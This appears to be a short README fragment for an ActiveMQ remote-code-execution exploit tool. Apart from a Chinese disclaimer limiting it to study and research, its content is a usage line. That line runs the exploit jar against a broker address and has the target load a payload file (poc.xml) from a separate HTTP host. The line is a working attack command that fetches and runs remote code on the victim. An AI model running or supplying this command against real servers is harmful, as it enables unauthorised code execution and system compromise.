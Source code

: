 1.本工具仅限于学习和技术研究，不可用于任何非法用途。
useage: java -jar ActiveMQ-RCE.jar tcp://127.0.0.1:61616 http://172.20.10.4:8000/poc.xml
